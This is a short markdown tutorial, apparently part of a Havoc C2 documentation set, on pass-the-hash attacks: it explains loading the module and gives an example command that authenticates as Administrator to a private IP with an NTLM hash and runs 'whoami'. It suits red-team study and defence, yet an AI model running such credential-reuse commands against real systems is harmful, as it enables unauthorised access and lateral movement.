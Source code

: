 
---

#### **6. Pass the Hash**

**File**: `Pass_the_Hash.md`

# Performing Pass the Hash Attacks

## Description
This tutorial explains how to use the **Pass the Hash** module to authenticate to remote systems using NTLM hashes.

## Requirements
- **Operating System**: Windows.
- **Havoc C2**: The Pass the Hash module must be loaded.

## Steps
1. **Preparation**:
   - Load the **Pass the Hash** module in Havoc C2.

2. **Execution**:
   - Use the command `pass_the_hash [target_ip] [username] [ntlm_hash] [command]` to execute a command on a remote system.

3. **Verification**:
   - Verify the command execution by checking the output or the remote system.

## Example Command
```bash
pass_the_hash 192.168.1.10 Administrator aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 "whoami"